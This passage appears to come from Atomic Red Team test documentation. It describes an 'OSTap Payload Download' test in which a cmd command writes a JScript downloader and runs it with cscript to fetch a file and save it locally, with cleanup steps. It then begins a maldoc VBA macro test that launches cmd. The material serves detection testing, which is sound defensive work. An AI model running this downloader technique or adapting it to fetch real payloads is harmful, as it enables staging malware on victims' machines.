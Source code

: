 


<br/>
<br/>

## Atomic Test #2 - OSTap Payload Download
Uses cscript //E:jscript to download a file

**Supported Platforms:** Windows


**auto_generated_guid:** 3f3af983-118a-4fa1-85d3-ba4daa739d80





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| script_file | File to execute jscript code from | path | %TEMP%&#92;OSTapGet.js|
| file_url | URL to retrieve file from | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt|


#### Attack Commands: Run with `command_prompt`! 


```cmd
echo var url = "#{file_url}", fso = WScript.CreateObject('Scripting.FileSystemObject'), request, stream; request = WScript.CreateObject('MSXML2.ServerXMLHTTP'); request.open('GET', url, false); request.send(); if (request.status === 200) {stream = WScript.CreateObject('ADODB.Stream'); stream.Open(); stream.Type = 1; stream.Write(request.responseBody); stream.Position = 0; stream.SaveToFile('ostapout.txt', 1); stream.Close();} else {WScript.Quit(1);}WScript.Quit(0); > #{script_file}
cscript //E:Jscript #{script_file}
```

#### Cleanup Commands:
```cmd
del #{script_file} /F /Q >nul 2>&1
```





<br/>
<br/>

## Atomic Test #3 - Maldoc choice flags command execution
This Test uses a VBA macro to execute cmd with flags observed in recent maldoc and 2nd stage downloaders. Upon execution, CMD will be launched.
Execution is handled by [Invoke-MalDoc](https://github.com/redcanaryco/invoke-atomicredteam/blob/master/Public/Invoke-MalDoc.ps1) to load and execute VBA code into Excel or Word documents.

**Supported Platforms:** Windows


**auto_generated_guid:** 0330a5d2-a45a-4272-a9ee-e364411c4b18
